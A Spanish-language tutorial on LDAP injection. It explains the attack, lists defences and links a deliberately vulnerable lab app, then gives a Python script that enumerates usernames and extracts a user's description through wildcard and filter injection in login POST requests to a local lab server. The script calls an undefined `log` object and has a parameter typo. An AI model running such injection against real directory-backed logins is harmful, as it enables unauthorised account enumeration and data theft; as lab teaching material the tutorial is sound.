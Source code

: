 ```yaml
---
title: Inyecciones LDAP
---
```

Las inyecciones **LDAP** (**Protocolo de Directorio Ligero**) son un tipo de ataque en el que se aprovechan las vulnerabilidades en las aplicaciones web que interactúan con un servidor LDAP. El servidor LDAP es un directorio que se utiliza para almacenar información de usuarios y recursos en una red.

La inyección LDAP funciona mediante la inserción de comandos LDAP maliciosos en los campos de entrada de una aplicación web, que luego son enviados al servidor LDAP para su procesamiento. Si la aplicación web no está diseñada adecuadamente para manejar la entrada del usuario, un atacante puede aprovechar esta debilidad para realizar operaciones no autorizadas en el servidor LDAP.

Al igual que las inyecciones SQL y NoSQL, las inyecciones LDAP pueden ser muy peligrosas. Algunos ejemplos de lo que un atacante podría lograr mediante una inyección LDAP incluyen:

-   Acceder a información de usuarios o recursos que no debería tener acceso.
-   Realizar cambios no autorizados en la base de datos del servidor LDAP, como agregar o eliminar usuarios o recursos.
-   Realizar operaciones maliciosas en la red, como lanzar ataques de phishing o instalar software malicioso en los sistemas de la red.

Para evitar las inyecciones LDAP, las aplicaciones web que interactúan con un servidor LDAP deben validar y limpiar adecuadamente la entrada del usuario antes de enviarla al servidor LDAP. Esto incluye la validación de la sintaxis de los campos de entrada, la eliminación de caracteres especiales y la limitación de los comandos que pueden ser ejecutados en el servidor LDAP.

También es importante que las aplicaciones web se ejecuten con privilegios mínimos en la red y que se monitoreen regularmente las actividades del servidor LDAP para detectar posibles inyecciones.

A continuación, se proporciona el enlace directo al proyecto de Github que nos descargamos para desplegar un laboratorio práctico donde poder ejecutar esta vulnerabilidad:

-   **LDAP-Injection-Vuln-App**: [https://github.com/motikan2010/LDAP-Injection-Vuln-App](https://github.com/motikan2010/LDAP-Injection-Vuln-App)

-------
## Renocimiento de usuarios y contraseñas potenciales
```python
#!/usr/bin/python3
 
import requests
import time 
import sys
import signal
import string
import pdb
 
def def_handler(sig, frame):
    print("\n\n[+] Saliendo...\n")
    sys.exit(1)
 
signal.signal(signal.SIGINT, def_handler)
 
 
# Variables globales
main_url = "http://localhost:8888/"
burp = {'http': 'http://127.0.0.1:8080'}
 
def getInitialUsers():
 
    characters = string.ascii_lowercase
 
    initial_users = []
 
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    for character in characters:
 
        post_data = "user_id={}*&password=*&login=1&submit-Submit".format(character)
 
        r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False, proxies=burp)
        if r.status_code == 301:
            initial_users.append(character)
 
 
    return initial_users
 
def getUsers(initial_users):
 
    characters = string.ascii_lowercase + string.digits
 
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    valid_users = []
 
    for first_character in initial_users:
 
        user= ""
 
        for position in range(0, 15):
            for character in characters:
 
                post_data = "user_id={}{}{}*&password=*&login=1&submit=Submit".format(first_character, user, character)
 
                r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)
 
                if r.status_code == 301:
 
                    user += character
                    break
 
        valid_users.append(first_character + user)
 
    for user in valid_users:
        log.info('[+] Usuario valido encontrado: %s' % user)
 
    return valid_users
 
def getDescription(user):
 
    characters = string.ascii_lowercase + ' '
 
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
 
    description = ""
 
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
 
    time.sleep(2)
 
    p2 = log.progress("Descripcion")
 
    for position in range(0,50):
        for character in characters:
 
            post_data = "user_id={})(description={}{}*))%00&password=*&login=1&submit=Submit".format(user, description, character)
            r = requests.post(main_url, data=post_data, headers=headers, allow_redirects=False)
 
            if r.status_code == 301:
                description += character 
                p2.status(description)
                break
 
    p1.success("Proceso de fuerza bruta concluido")
    p2.success("La descripcion del usuario es: %s" % description)
 
if __name__ == '__main__':
 
    initial_users = getInitialUsers()
    valid_users = getUsers(initial_users)
 
    getDescription(valid_users[1])
```
